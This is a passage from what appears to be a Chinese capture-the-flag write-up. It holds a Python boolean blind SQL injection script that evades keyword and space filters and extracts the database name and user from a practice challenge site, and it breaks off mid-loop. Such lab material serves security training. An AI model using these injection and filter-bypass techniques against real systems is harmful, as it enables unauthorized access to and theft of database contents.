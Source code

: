    返回结果为

   > You are  in ............... 

7. > information什么倒是都没禁掉，但是注意information中包含or，需要替换掉。写一个二分盲注脚本即可，具体用到limit的offset偏移。然后它禁掉了substr，但是我们还有mid，用mid(table from offset)即可 

   写python脚本，布尔正则盲注爆破

   ```python
   # -*- coding:utf8 -*-
   __author__='pcat@chamd5.org'
   
   import requests
   import string
   import time
   
   def payload(rawstr):
       newstr=rawstr.replace(' ',chr(0x0a)).replace('or','oorr')
       return newstr
   
   
   def foo():
       url=r'http://ctf5.shiyanbar.com/web/earnest/index.php'
       mys=requests.session()
       cset=string.digits+string.lowercase+'!_{}@~.'
       true_state='You are in'
   
       lens=0
       i=1
       model="0' or length(database())=%d or 'pcat'='"
       while True:
           tmp= model %(i)
           myd={'id':payload(tmp),}
           res=mys.post(url,data=myd).content
           if true_state in res:
               lens=i
               break
           i+=1
           pass
       lens=18
       print("[+]length(database()): %d" %(lens))
   
       strs=''
       model="0' or (select database() regexp '%s$') or 'pcat'='"
       for i in range(lens):
           for c in cset:
               tmp=model %(c+strs)
               myd={'id':payload(tmp),}
               res=mys.post(url,data=myd).content
               if true_state in res:
                   strs=c+strs
                   print strs
                   break
           pass
       pass
       strs='ctf_sql_bool_blind'
       print("[+]database():%s" %(strs))
   
   
       lens=0
       i=1
       model="0' or length(user())=%d or 'pcat'='"
       while True:
           tmp= model %(i)
           myd={'id':payload(tmp),}
   ```